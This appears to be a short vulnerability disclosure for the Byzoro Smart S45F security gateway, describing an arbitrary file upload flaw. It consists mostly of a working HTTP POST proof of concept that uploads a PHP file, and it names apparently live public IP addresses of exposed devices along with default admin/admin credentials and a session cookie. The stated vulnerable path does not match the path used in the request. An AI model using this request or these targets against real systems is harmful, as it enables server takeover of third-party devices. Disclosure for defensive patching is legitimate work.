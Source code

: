 Beijing Baizhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure Internet. Byzro Networks Smart S45F multi-service security gateway intelligent management platform has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official：https://www.byzoro.com/

version: S45

Vulnerability Path ：/sysmanage/changelogo.php

Ip：https://103.121.164.62:8443/

Account password: admin/admin

poc:
```
POST /sysmanage/updatelib.php? HTTP/1.1
Host: 222.180.2.66:8443
Cookie: PHPSESSID=c36d5527fd784aa29748b3b1c50be7bc
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 715
Origin: https://222.180.2.66:8443
Referer: https://222.180.2.66:8443/sysmanage/licence.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="ck"

radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_tftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_ftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—


```

<img width="625" alt="image" src="https://github.com/llixixi/cve/assets/144869546/4f13be15-d8f4-4162-b28c-d148823d0d2d">

https://103.121.164.62:8443/sysmanage/updatelib.php
<img width="602" alt="image" src="https://github.com/llixixi/cve/assets/144869546/da1901db-6532-425b-879a-f4e7776cce7c">


